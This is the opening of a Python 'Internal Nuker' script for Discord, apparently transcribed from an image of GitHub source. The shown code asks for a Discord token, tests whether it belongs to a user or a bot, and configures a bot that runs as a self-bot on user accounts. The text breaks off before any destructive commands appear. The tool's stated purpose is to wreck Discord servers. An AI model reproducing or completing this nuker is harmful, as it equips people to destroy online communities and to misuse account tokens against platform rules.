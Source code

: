 import requests
import os
import sys
import threading
import time
import json
import asyncio
import discord
import aiohttp

from pypresence import Presence
from discord import Webhook, AsyncWebhookAdapter
from discord.ext import commands

os.system(f'cls & mode 85,20 & title [Internal Nuker] - Configuration')

token = input(f'\x1b[38;5;56m> \033[37mToken\x1b[38;5;56m: \033[37m')
rich_presence = input(f'\x1b[38;5;56m> \033[37mRich Presence (\x1b[38;5;56mY\033[37m/\x1b[38;5;56mN\033[37m)\x1b[38;5;56m: \033[37m')

os.system('cls')

def check_token():
    if requests.get("https://discord.com/api/v8/users/@me", headers={"Authorization": f'{token}'}).status_code == 200:
        return "user"
    else:
        return "bot"

def RichPresence():
    if rich_presence == "y" or rich_presence == "Y":
        try:
            RPC = Presence("816053514584195073") 
            RPC.connect() 
            RPC.update(details="Connected", large_image="averylarge2", small_image="avery", large_text="https://github.com/syskeyfree", start=time.time())
        except:
            pass

rich_presence = RichPresence()
token_type = check_token()
intents = discord.Intents.all()
intents.members = True

if token_type == "user":
    headers = {'Authorization': f'{token}'}
    client = commands.Bot(command_prefix=">", case_insensitive=False, self_bot=True, intents=intents)
elif token_type == "bot":
    headers = {'Authorization': f'Bot {token}'}
    client = commands.Bot(command_prefix=">", case_insensitive=False, intents=intents)

client.remove_command("help")

class Avery:

    def __init__(self):
        self.colour = '\x1b[38;5;56m'
